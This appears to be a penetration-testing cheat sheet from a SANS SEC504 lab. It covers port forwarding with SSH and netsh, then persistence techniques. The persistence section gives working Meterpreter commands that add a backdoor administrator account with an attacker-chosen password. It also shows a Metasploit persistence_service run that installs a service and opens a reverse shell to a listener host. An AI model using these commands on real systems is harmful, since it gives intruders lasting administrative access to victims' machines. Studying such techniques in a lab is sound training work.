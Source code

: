 ### Portforwarding

#### SSH for Linux

```
sec504@slingshot:~$ ssh -L 8000:10.10.10.100:80 victortimko@10.10.10.11
Password:
Last login: Fri Jan 24 07:25:00 2020 from 10.10.10.100
victim:~ $
```

#### netsh for Windows

```
C:\WINDOWS\system32> netsh interface portproxy add v4tov4 listenaddress=0.0.0.0 listenport=8000 connectaddress=10.10.10.100 connectport=80
C:\WINDOWS\system32> netstat -nato | findstr :8000
TCP 0.0.0.0:8000 0.0.0.0:0 LISTENING 252 InHost
```

## Persistence

- Regain access
- Avoid detection
- Preserve privileges and access
- Flexible triggers for reestablishing access

### Create account

```
meterpreter > execute -f "net user /add assetmgtacct Att@ckerPassw"
Process 6892 created.
meterpreter > execute -f "net localgroup administrators /add assetmgtacct"
Process 7192 created.
meterpreter > execute -i -f "net user"
Process 3436 created.
Channel 3 created.
User accounts for \\WS-F43G01
----------------------------------------------------------------------------
Administrator assetmgtacct
DefaultAccount WDAGUtilityAccount
Guest Sec504
The command completed with one or more errors.
```

### As a service

```
meterpreter > background
[*] Backgrounding session 1...
msf6 > use exploit/windows/local/persistence_service
msf6 exploit(windows/local/persistence_service) > set session 1
msf6 exploit(windows/local/persistence_service) > set lport 4445
msf6 exploit(windows/local/persistence_service) > set lhost 10.10.75.1
msf6 exploit(windows/local/persistence_service) > exploit
[*] Started reverse TCP handler on 10.10.75.1:4445
[*] Running module against SEC504STUDENT
[+] Meterpreter service exe written to C:\WINDOWS\TEMP\LAGYmO.exe
[*] Creating service EPjXQ
[*] Meterpreter session 2 opened (10.10.75.1:4445 -> 10.10.0.1:1546) at
2021-06-15 16:41:10
```
